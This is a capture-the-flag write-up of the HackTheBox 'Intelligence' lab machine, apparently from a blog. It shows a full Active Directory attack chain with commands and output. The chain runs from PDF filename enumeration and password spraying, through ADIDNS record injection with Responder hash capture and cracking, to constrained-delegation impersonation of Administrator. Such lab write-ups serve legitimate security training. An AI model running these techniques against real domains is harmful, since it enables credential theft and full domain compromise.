

+++
authors = ["Matt Johnson"]
title = 'HTB: Intelligence Writeup'
date = '2021-11-27'
description = "HackTheBox's Intelligence was a fascinating machine mirroring real-world logic flaws in web applications and Active Directory attack paths. Additionally, one goes from unprivileged user all the way to root without ever gaining remote code execution on the machine itself, demonstrating the risk of information disclosure even in absence of clear attack vectors."
draft = false
tags = ["hackthebox","security"]
summary = "HackTheBox's Intelligence was a fascinating machine mirroring real-world logic flaws in web applications and Active Directory attack paths. Additionally, one goes from unprivileged user all the way to root without ever gaining remote code execution on the machine itself, demonstrating the risk of information disclosure even in absence of clear attack vectors."
+++



# Initial Access
To determine the active services running on the machine, I began by running an Nmap scan:
```shell
┌──(kali@kali)-[~/htb/intelligence]
└─$ nmap -sC -sV -p- -v -oA nmap 10.10.10.248
    Nmap 7.91 scan initiated Mon Sep 13 21:13:46 2021 as: nmap -sC -sV -p- -v -oA nmap 10.10.10.248
Nmap scan report for 10.10.10.248
Host is up (0.14s latency).
Not shown: 65515 filtered ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Intelligence
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-09-14 08:26:07Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.intelligence.htb
| Issuer: commonName=intelligence-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-04-19T00:43:16
| Not valid after:  2022-04-19T00:43:16
| MD5:   7767 9533 67fb d65d 6065 dff7 7ad8 3e88
|_SHA-1: 1555 29d9 fef8 1aec 41b7 dab2 84d7 0f9d 30c7 bde7
|_ssl-date: 2021-09-14T08:27:39+00:00; +7h04m41s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.intelligence.htb
| Issuer: commonName=intelligence-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-04-19T00:43:16
| Not valid after:  2022-04-19T00:43:16
| MD5:   7767 9533 67fb d65d 6065 dff7 7ad8 3e88
|_SHA-1: 1555 29d9 fef8 1aec 41b7 dab2 84d7 0f9d 30c7 bde7
|_ssl-date: 2021-09-14T08:27:40+00:00; +7h04m41s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.intelligence.htb
| Issuer: commonName=intelligence-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-04-19T00:43:16
| Not valid after:  2022-04-19T00:43:16
| MD5:   7767 9533 67fb d65d 6065 dff7 7ad8 3e88
|_SHA-1: 1555 29d9 fef8 1aec 41b7 dab2 84d7 0f9d 30c7 bde7
|_ssl-date: 2021-09-14T08:27:39+00:00; +7h04m41s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc.intelligence.htb
| Issuer: commonName=intelligence-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-04-19T00:43:16
| Not valid after:  2022-04-19T00:43:16
| MD5:   7767 9533 67fb d65d 6065 dff7 7ad8 3e88
|_SHA-1: 1555 29d9 fef8 1aec 41b7 dab2 84d7 0f9d 30c7 bde7
|_ssl-date: 2021-09-14T08:27:40+00:00; +7h04m41s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49691/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49692/tcp open  msrpc         Microsoft Windows RPC
49702/tcp open  msrpc         Microsoft Windows RPC
49714/tcp open  msrpc         Microsoft Windows RPC
63170/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h04m40s, deviation: 0s, median: 7h04m40s
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2021-09-14T08:27:02
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep 13 21:23:00 2021 -- 1 IP address (1 host up) scanned in 553.52 seconds
```
The publically available ports indicate that this is an Active Directory Domain Controller. One of the first things I did was briefly enumerate DNS to see if I could find valid domains.
```shell
┌──(kali@kali)-[~/htb/intelligence]
└─$ dig axfr @10.10.10.248

; <<>> DiG 9.16.15-Debian <<>> axfr @10.10.10.248
; (1 server found)
;; global options: +cmd
;; Query time: 4708 msec
;; SERVER: 10.10.10.248#53(10.10.10.248)
;; WHEN: Mon Sep 13 21:53:03 EDT 2021
;; MSG SIZE  rcvd: 28
```
After that yielded no results, I moved on to SMB enumeration. I attempted both anonymous login and null authentication, however wasn’t able to gain anything meaningful out of the service.
```shell
┌──(kali@kali)-[~/htb/intelligence]
└─$ smbclient -L \\\\10.10.10.248\\
Enter WORKGROUP\kali\'s password:
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
SMB1 disabled -- no workgroup available
```
Moving on to the web, I began manual enumeration of the website.




From the main page of the site, there are two PDF files available for viewing. While the PDFs themselves were of no use to us, the naming conventions utilized for the files do provide an interesting path for further enumeration. The basic convention is as follows: `YYYY-MM-DD-upload.pdf`. With that knowledge, I was able to create and run a script that would iterate over all dates in 2020 and 2021, request each respective file, view the HTTP response code to determine whether any files exist, and download the file if the server responds with `200`. Here’s how that script looks:
```bash
#!/bin/bash

URL='http://10.10.10.248/documents/'

for (( i = 2020; i < 2022; i++ ))      ### Outer for loop ###
do

    for j in 0{1..9} {10..12} ; ### Inner for loop ###
    do
            for k in 0{1..9} {10..31};
            do
                    HTTP_CODE=$(curl -s -o /dev/null -w "%{http_code}" $URL$i-$j-$k-upload.pdf)
                    echo $HTTP_CODE
                    if [ $HTTP_CODE == 200 ]
                    then
                            echo 'Downloading file...'
                            wget $URL$i-$j-$k-upload.pdf -O $i-$j-$k-upload.pdf
                    fi
            done
    done

    echo "" #### print the new line ###
done
```
Having successfully enumerated and downloaded all files following that convention, I performed two subsequent tasks.

First, I pulled down the metadata of each file to find its creator and create a list of potential Active Directory users.
```shell
┌──(kali@kali)-[~/htb/intelligence/pdf]
└─$ for i in 202*; do pdfinfo $i | grep 'Creator' | awk -F' ' '{print $(NF)}'; done >> users.lst

┌──(kali@kali)-[~/htb/intelligence/pdf]
└─$ cat users.lst
William.Lee
Scott.Scott
...
```
Second, I manually inspected each file to see if the document itself contained any useful information. One of the files contained the default password used to set up accounts.


Armed with a listing of potential users and a default password, I performed a password spray attack and found that the credentials were valid for the `Tiffany.Molina` user.
```shell
┌──(kali@kali)-[~/htb/intelligence/pdf]
└─$ crackmapexec smb -u users.lst -p NewIntelligenceCorpUser9876 -d intelligence.htb 10.10.10.248
SMB         10.10.10.248    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.248    445    DC               [-] intelligence.htb\William.Lee:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Scott.Scott:NewIntelligenceCorpUser9876 STATUS_LOGON_FAILURE
...
SMB         10.10.10.248    445    DC               [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876
```
# Privilege Escalation
With valid credentials, I once again enumerated SMB to see if I had access to execute code or read any interesting shares:
```shell
┌──(kali@kali)-[~/htb/intelligence/]
└─$ smbmap -u Tiffany.Molina -p NewIntelligenceCorpUser9876 -d intelligence.htb -H 10.10.10.248
[+] IP: 10.10.10.248:445        Name: intelligence.htb
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        IT                                                      READ ONLY
        NETLOGON                                                READ ONLY       Logon server share
        SYSVOL                                                  READ ONLY       Logon server share
        Users                                                   READ ONLY
```
I found that the controlled user had read access to the `IT` share, which contained an interesting script:
```powershell
# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
try {
$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
if(.StatusCode -ne 200) {
Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
}
} catch {}
}
```
This script appeared to be related to an earlier PDF found regarding an internal IT update:


After a bit of research, it appears that the script utilizes Active Directory-Integrated DNS (ADIDNS), which might be exploitable in combination with the gift that keeps on giving: Responder. Essentially, any valid domain user can add a record to the DNS server by taking advantage of the insecure-by-default configurations of DNS dynamic updates. So long as a DNS record does not currently exist for a given domain, any valid domain user can create a domain record within the DNS server. For the purpose of exploiting this script, I can create a subdomain of `intelligence.htb` that begins with `web`. After doing so, the `Ted.Graves` user should attempt to connect to our domain and provide his credentials along with it. By running Responder, I should be able to catch the credentials coming across the wire:
```shell
┌──(kali@kali)-[/opt]
└─$ python3 dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' --record 'webbyboy.intelligence.htb' --action add --data 10.10.14.22 10.10.10.248
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
/opt/dnstool.py:241: DeprecationWarning: please use dns.resolver.Resolver.resolve() instead
    res = dnsresolver.query(zone, 'SOA')
[-] Adding new record
[+] LDAP operation completed successfully
```
```shell
┌──(kali@kali)-[/opt]
└─$ sudo responder -I tun0 -A -w
                                            __
    .----.-----.-----.-----.-----.-----.--|  |.-----.----.
    |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
    |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                    |__|

            NBT-NS, LLMNR & MDNS Responder 3.0.6.0

    Author: Laurent Gaffie (laurent.gaffie@gmail.com)
    To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [ON]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [ON]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Fingerprint hosts          [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.22]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
    Responder Machine Name     [WIN-WCHKE328QTF]
    Responder Domain Name      [DAVC.LOCAL]
    Responder DCE-RPC Port     [47660]
[i] Responder is in analyze mode. No NBT-NS, LLMNR, MDNS requests will be poisoned.
[Analyze mode: ICMP] You can ICMP Redirect on this network.
[Analyze mode: ICMP] This workstation (10.10.14.22) is not on the same subnet than the DNS server (192.168.135.2).
[Analyze mode: ICMP] Use `python tools/Icmp-Redirect.py` for more details.

[+] Listening for events...

[HTTP] NTLMv2 Client   : 10.10.10.248
[HTTP] NTLMv2 Username : intelligence\Ted.Graves
[HTTP] NTLMv2 Hash     : Ted.Graves::intelligence:1355a50d6b998e79:B6584DDE7414DA386C20ED1B1F01FF37:010100000000000039BE5EA912AAD70157DFD6F6383C5F4D0000000002000800440041005600430001001E00570049004E002D005700430048004B0045003300320038005100540046000400140044004100560043002E004C004F00430041004C0003003400570049004E002D005700430048004B00450033003200380051005400460
02E0044004100560043002E004C004F00430041004C000500140044004100560043002E004C004F00430041004C000800300030000000000000000000000000200000A25F64C5E61F8AE9A198A05240CE7D5651C530BC158F39379EAD070E0D00343E0A0010000000000000000000000000000000000009003C0048005400540050002F007700650062006200790062006F0079002E0069006E00740065006C006C006900670065006E00630065002E006800740062
000000000000000000
```
As predicted, I successfully captured the credentials. I then attempted to crack the password hash for `Ted.Graves` using John:
```shell
┌──(kali@kali)-[~/htb/intelligence]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Mr.Teddy         (Ted.Graves)
1g 0:00:00:05 DONE (2021-09-14 22:18) 0.1872g/s 2025Kp/s 2025Kc/s 2025KC/s Mrz.deltasigma..Morgant1
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```
With newly captured credentials, I further enumerated the machine. The user didn’t have any additional access to SMB. However, the internal IT update associated with the PowerShell script enumerated earlier indicated that this user was likely a member of IT and has additional capabilities that `Tiffany.Molina` doesn't have. I leveraged the credentials to enumerate LDAP and dump all potentially useful information:
```shell
┌──(kali@kali)-[~/htb/intelligence]
└─$ ldapdomaindump -u 'intelligence.htb\Ted.Graves' -p 'Mr.Teddy' -o ldap-dump 10.10.10.248
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished

┌──(kali@kali)-[~/htb/intelligence]
└─$ cd ldap-dump

┌──(kali@kali)-[~/htb/intelligence/ldap-dump]
└─$ ls
domain_computers_by_os.html  domain_computers.html  domain_groups.grep  domain_groups.json  domain_policy.html  domain_trusts.grep  domain_trusts.json          domain_users.grep  domain_users.json
domain_computers.grep        domain_computers.json  domain_groups.html  domain_policy.grep  domain_policy.json  domain_trusts.html  domain_users_by_group.html  domain_users.html
```
I was able to derive a complete user listing from the dump:
```shell
┌──(kali@kali)-[~/htb/intelligence/ldap-dump]
└─$ cat domain_users.grep | awk -F"\t" '{print $3}' > users.lst

┌──(kali@kali)-[~/htb/intelligence/ldap-dump]
└─$ cat users.lst
sAMAccountName
Ted.Graves
Laura.Lee
Jason.Patterson
Jeremy.Mora
James.Curbow
Tiffany.Molina
Jessica.Moody
Daniel.Shelton
Brian.Morris
Anita.Roberts
Jean.Walter
Joel.Crawford
Veronica.Patel
Thomas.Wise
William.Lee
Darryl.Harris
David.Wilson
Teresa.Williamson
Richard.Williams
Brian.Baker
Thomas.Hall
Thomas.Valenzuela
John.Coleman
Stephanie.Young
Nicole.Brock
Kelly.Long
Travis.Evans
Kaitlyn.Zimmerman
Jennifer.Thomas
Michelle.Kent
Ian.Duncan
David.Reed
Scott.Scott
David.Mcbride
Samuel.Richardson
Jason.Wright
Jose.Williams
Danny.Matthews
krbtgt
Guest
Administrator
```


I attempted to identify kerberoastable users using Impacket’s `GetUserSPNs`, and the `krbtgt` user was, in fact, susceptible. Given the difficulty associated with cracking that particular account and the lack of success using the basic `rockyou.txt` file, I moved on to other escalation vectors.

Another option I pursued was to find users with delegation privileges to the Domain Controller. If any existed, I could attempt to get a password hash or ticket for that respective user and attempt to crack the password offline. With delegation rights to the Domain Controller, I could impersonate any user on the domain.
```shell
┌──(kali@kali)-[~/htb/intelligence]
└─$ impacket-findDelegation -dc-ip 10.10.10.248 intelligence.htb/Ted.Graves:Mr.Teddy
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

AccountName  AccountType                          DelegationType                      DelegationRightsTo
-----------  -----------------------------------  ----------------------------------  -----------------------
svc_int$     ms-DS-Group-Managed-Service-Account  Constrained w/ Protocol Transition  WWW/dc.intelligence.htb
```
The `Ted.Graves` user is in the `itsupport` Active Directory group, thereby allowing me to pull down the NTLM hash for that user. By passing the NTLM hash for the `svc_int` user, I used Impacket’s `getST` to impersonate the `Administrator` account and get a Kerberos ticket for the user.
```shell
┌──(kali@kali)-[~/htb/intelligence/gMSADumper]
└─$ impacket-getST intelligence.htb/svc_int$ -spn WWW/dc.intelligence.htb -hashes :5e47bac787e5e1970cf9acdb5b316239 -impersonate Administrator
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```
From there, gaining root access to the machine was as simple as logging in via SMB using the downloaded Kerberos ticket.
```shell
┌──(kali@kali)-[~/htb/intelligence/gMSADumper]
└─$ export KRB5CCNAME=Administrator.ccache

┌──(kali@kali)-[~/htb/intelligence/gMSADumper]
└─$ impacket-smbclient -k intelligence.htb/Administrator@dc.intelligence.htb -no-pass
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Type help for list of commands
# shares
ADMIN$
C$
IPC$
IT
NETLOGON
SYSVOL
Users
# who
host:   \\10.10.14.22, user: Administrator, active:    25, idle:     1
#
```